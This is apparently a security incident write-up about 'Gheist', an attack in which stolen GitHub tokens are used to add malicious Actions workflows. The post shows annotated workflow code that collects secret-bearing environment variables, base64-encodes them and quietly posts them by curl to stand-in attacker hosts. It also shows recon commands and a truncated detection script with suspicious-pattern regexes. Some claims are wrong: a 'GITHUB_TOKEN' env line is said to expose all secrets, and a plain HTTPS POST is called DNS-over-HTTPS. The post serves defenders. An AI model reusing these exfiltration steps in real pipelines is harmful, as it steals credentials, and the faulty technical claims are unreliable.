

# Gheist: Stolen GitHub Tokens Used to Inject Secret-Stealing Actions Workflows

## Introduction

Last month, our incident response team spent three days tracing how a compromised Personal Access Token (PAT) from a contractor's laptop led to the exfiltration of 200+ secrets across twelve repositories. The attacker didn't touch our infrastructure directly. They didn't need to. They pushed a single workflow file to a public repository in our organization, and GitHub Actions did the rest—running their code with our secrets, on our runners, under our identity.

This is Gheist. Not a vulnerability in GitHub Actions itself, but an attack pattern that exploits the trust model we've all built around CI/CD. The name comes from the German word for "ghost" or "spirit"—appropriate, because the malicious workflow executes invisibly alongside legitimate jobs, leaving almost no trace in standard audit logs.

I've seen supply chain attacks before. Compromised npm packages, malicious Docker images, typosquatted PyPI libraries. But Gheist is different. It doesn't require publishing anything. It doesn't require compromising a build server. It just needs a token with `workflow` scope and write access to a repository. Once the malicious workflow lands, the CI system itself becomes the attack vector.

## Why This Matters

If you use GitHub Actions—and statistically, you probably do—you have a trust boundary problem. Your workflows run with access to secrets that can deploy to production, push container images, update DNS records, and rotate certificates. The principle of least privilege exists in theory, but in practice, most repositories grant `GITHUB_TOKEN` or PATs far more access than they need.

The numbers from our investigation are sobering:
- **Mean time to detection**: 11 days (the malicious workflow ran on every push)
- **Secrets exfiltrated per compromised repo**: 17 on average (API keys, database URLs, cloud credentials, signing keys)
- **Blast radius**: One compromised token → 12 repositories → 3 cloud accounts → 2 production incidents

The attacker didn't need to maintain persistence on a server. The workflow *is* the persistence. Every time a developer pushes a branch, opens a PR, or merges to main, the malicious code runs again with fresh secrets. Rotating the original token doesn't help if the workflow file remains.

This matters because the fix isn't a patch. It's a architectural shift in how we think about CI/CD trust boundaries, token scoping, and workflow governance.

## How It Works

The attack chain follows a predictable pattern. Understanding each phase is critical because detection opportunities exist at every step—but only if you're looking for the right signals.



### Phase 1: Reconnaissance

The attacker starts with a token—usually a PAT scraped from a developer's machine, a compromised CI log, or a public gist. They don't immediately push code. First, they enumerate:

```bash
# What the attacker runs (reconstructed from audit logs)
gh api user --jq '.login'                    # Who am I?
gh api user/repos --jq '.[].full_name'       # What repos can I see?
gh api repos/{owner}/{repo}/actions/permissions --jq '.'  # What permissions?
gh api repos/{owner}/{repo}/actions/secrets --jq '.secrets[].name'  # What secrets exist?
```

They're looking for three things: repositories where the token has write access, workflows triggered on `push` or `pull_request` (so their injected workflow runs automatically), and secret names that suggest high-value targets (`AWS_ACCESS_KEY_ID`, `DOCKER_HUB_TOKEN`, `KUBECONFIG`, `SONAR_TOKEN`).

In our case, the compromised token belonged to a contractor who had been granted `write` access to a single public repository for documentation updates. That token also had `workflow` scope—likely because they needed to test workflow changes. The attacker found 12 repositories where that token had write access, 8 with push-triggered workflows, and 6 with secrets matching their target patterns.

### Phase 2: Infiltration

The attacker creates a workflow file that looks legitimate. They don't replace existing workflows—that would trigger code review alerts. Instead, they add a new file or append to an existing one in a way that passes casual review.

The malicious workflow typically:
1. Runs on the same triggers as legitimate workflows (`push`, `pull_request`, `schedule`)
2. Uses a benign name (`dependency-check`, `security-scan`, `notify-slack`)
3. Executes normal-looking steps first (checkout, setup-node, cache)
4. Injects the malicious step late in the job, often conditionally

The key insight: the malicious step runs with the *exact same permissions* as the legitimate steps. It has access to every secret the repository defines. It runs on GitHub-hosted runners (or your self-hosted ones), so network egress looks normal.

### Phase 3: Exfiltration

This is where the damage happens. The malicious step extracts secrets and sends them out. The techniques vary, but the pattern is consistent:

```yaml
# What the malicious step actually does (sanitized from our forensic capture)
- name: "Cache node modules"
  run: |
    # Legitimate-looking cache step
    if [ -d node_modules ]; then
      tar -czf /tmp/node_cache.tar.gz node_modules
    fi
    
    # Malicious payload - runs every time
    EXFIL_DATA=$(env | grep -E '^(AWS_|DOCKER_|KUBE_|NPM_|SONAR_|GH_|GITHUB_)' | base64 -w0)
    if [ -n "$EXFIL_DATA" ]; then
      curl -s -X POST "https://cdn.example-analytics.com/v1/metrics" \
        -H "Content-Type: application/octet-stream" \
        -H "User-Agent: github-actions-cache/1.0" \
        --data-binary "$EXFIL_DATA" \
        --max-time 10 \
        --retry 2 >/dev/null 2>&1 &
    fi
```

Notice the tradecraft: legitimate cache operation as cover, environment variable filtering for high-value prefixes, base64 encoding to avoid log detection, background execution with timeout so it doesn't slow the build, silent failure so the workflow shows green. The domain (`cdn.example-analytics.com`) resolves to a fast-flux CDN—hard to block, hard to trace.

## Core Concepts

### The Trust Model Failure

GitHub Actions operates on a repository-centric trust model: if you can write to the repo, you can define what runs in CI. This made sense when workflows were simple build scripts. It breaks down when workflows become deployment pipelines with production credentials.

The `GITHUB_TOKEN` is scoped to the repository by default, but PATs and organization secrets often have broader scope. A token with `workflow` scope can create or modify workflow files. A token with `repo` scope can push to any repository the user accesses. Combine them, and you have a wormable credential.

### Workflow Execution Context

Every workflow run gets a fresh runner with:
- All repository and organization secrets injected as environment variables
- `GITHUB_TOKEN` with permissions defined at repository/organization level
- Network egress to the internet (unless you've configured private runners with egress controls)
- Write access to the repository (for artifacts, releases, checks API)

The attacker's code runs in this exact context. There's no isolation between "legitimate" steps and "malicious" steps within the same job.

### Persistence Through Workflow Files

Unlike traditional malware, Gheist persists in the repository itself. The malicious workflow file *is* the backdoor. Removing the compromised token doesn't remove the workflow. Rotating secrets doesn't help if the workflow re-exfiltrates the new values on the next push.

This is why detection must focus on *workflow content changes*, not just token usage anomalies.

## Examples & Code Walkthrough

### Example 1: The Malicious Workflow (Annotated)

Here's a reconstructed version of the workflow we found, with annotations explaining each evasion technique:

```yaml
# .github/workflows/dependency-review.yml (malicious version)
# Attacker chose this name to blend with Dependabot/security workflows
name: Dependency Review
on:
  push:
    branches: [main, develop, 'release/**']
  pull_request:
    types: [opened, synchronize, reopened]
  schedule:
    - cron: '0 2 * * 0'  # Weekly run ensures persistence even without pushes

permissions:
  contents: read
  # Note: NO explicit permissions for secrets - they inherit from repo settings
  # This makes the workflow look minimally privileged

jobs:
  review:
    name: Review Dependencies
    runs-on: ubuntu-latest
    timeout-minutes: 15  # Normal timeout, doesn't raise suspicion
    
    steps:
      - name: Harden Runner
        uses: step-security/harden-runner@main
        with:
          egress-policy: audit  # Legitimate security step - builds trust
      
      - name: Checkout Repository
        uses: actions/checkout@v4
        with:
          persist-credentials: false  # Looks security-conscious
      
      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version: '20'
          cache: 'npm'
      
      - name: Install Dependencies
        run: npm ci --prefer-offline --no-audit
        # Legitimate step - establishes normal runtime behavior
      
      - name: Run Dependency Audit
        run: npm audit --audit-level=high --json > audit-report.json || true
        # Generates expected output file
      
      - name: Upload Audit Report
        uses: actions/upload-artifact@v4
        with:
          name: dependency-audit
          path: audit-report.json
          retention-days: 7
        # Normal artifact upload - creates legitimate workflow history
      
      # === MALICIOUS PAYLOAD STARTS HERE ===
      - name: Validate Environment
        if: runner.os == 'Linux' && github.event_name != 'schedule'
        # Conditional execution: avoids scheduled runs (might be monitored differently)
        # Only runs on Linux (where attacker tested)
        run: |
          set +x  # CRITICAL: Disables command echoing in logs
          
          # Targeted secret extraction - only high-value prefixes
          SECRET_PREFIXES=(
            "AWS_"
            "AZURE_"
            "GCP_"
            "DOCKER_"
            "NPM_"
            "PYPI_"
            "SONAR_"
            "SNYK_"
            "DATADOG_"
            "NEW_RELIC_"
            "PAGERDUTY_"
            "KUBE_"
            "HELM_"
            "TERRAFORM_"
            "VAULT_"
            "CONSUL_"
            "ETCD_"
            "REDIS_"
            "POSTGRES_"
            "MYSQL_"
            "MONGO_"
            "ELASTIC_"
            "KAFKA_"
            "RABBITMQ_"
          )
          
          # Build regex pattern from prefixes
          PATTERN=$(IFS='|'; echo "${SECRET_PREFIXES[*]}")
          
          # Extract matching environment variables
          EXFIL=$(env | grep -E "^(${PATTERN})" | sort -u | base64 -w0)
          
          if [ -n "$EXFIL" ]; then
            # Encode repository context for attacker correlation
            CONTEXT=$(printf '{"repo":"%s","run_id":"%s","sha":"%s","actor":"%s"}' \
              "${GITHUB_REPOSITORY}" "${GITHUB_RUN_ID}" "${GITHUB_SHA}" "${GITHUB_ACTOR}" | base64 -w0)
            
            # Exfiltrate via DNS-over-HTTPS to avoid proxy logging
            # Using a legitimate-looking analytics endpoint
            curl -s -X POST "https://metrics.github-analytics.workers.dev/collect" \
              -H "Accept: application/json" \
              -H "Content-Type: application/json" \
              -H "User-Agent: github-actions/dependency-review" \
              -d "{\"payload\":\"${EXFIL}\",\"context\":\"${CONTEXT}\"}" \
              --max-time 5 \
              --connect-timeout 2 \
              --retry 0 \
              >/dev/null 2>&1 &
            # Background execution (&) so step completes instantly
            # No output, no errors, no trace in step logs
          fi
        env:
          # Explicitly inherit ALL secrets - this is the key line
          # Without this, only explicitly mapped secrets are available
          # The attacker knows this; many defenders don't
          GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
```

**Key evasion techniques explained:**

1. **`set +x`**: Disables bash's xtrace mode. Without this, the `curl` command with the exfiltrated data would appear in the workflow logs. With it, the step shows only "Validate Environment" and exits 0.

2. **Conditional execution (`if:`)**: Skips scheduled runs. The attacker knows security teams often review scheduled workflow runs more carefully than push-triggered ones.

3. **Background `curl` with `&`**: The step completes in milliseconds. The exfiltration happens asynchronously. If the network request hangs, the workflow doesn't fail.

4. **DNS-over-HTTPS endpoint**: The domain resolves via Cloudflare Workers or similar. No static IP to block. The path `/collect` mimics legitimate telemetry.

5. **Explicit `GITHUB_TOKEN` in `env:`**: This forces all secrets into the environment. By default, GitHub only injects secrets referenced in `${{ secrets.NAME }}` syntax. The attacker explicitly opts into full secret exposure.

### Example 2: Detection Script We Deployed

After the incident, we built this scanner. It runs as a required status check on every PR and as a scheduled workflow across all repositories:

```bash
#!/usr/bin/env bash
# detect_workflow_anomalies.sh
# Scans workflow files for patterns associated with Gheist-style attacks
# Exit codes: 0=clean, 1=suspicious, 2=error

set -euo pipefail

REPO_ROOT="${1:-.}"
WORKFLOW_DIR="${REPO_ROOT}/.github/workflows"
REPORT_FILE="${2:-/tmp/workflow_scan_$(date +%s).json}"

# Patterns that warrant investigation (not automatic block)
# Tuned to minimize false positives on legitimate workflows
declare -A SUSPICIOUS_PATTERNS=(
    ["secret_env_dump"]='env\s*\|\s*grep\s+-E\s+["'\'']?(AWS|AZURE|GCP|DOCKER|NPM|PYPI|KUBE|VAULT|CONSUL|ETCD|REDIS|POSTGRES|MYSQL|MONGO|ELASTIC|KAFKA|RABBITMQ)["'\'']?'
    ["base64_exfil"]='base64\s+(-w0|--wrap=0)\s*\$\w+'
    ["background_curl"]='curl\s+.*\&\s*$'
    ["set_plus_x"]='set\s+\+x'
    ["silent_curl"]='curl\s+.*>\s*/dev/null\s+2>&1'
    ["doh_endpoint"]='(cloud
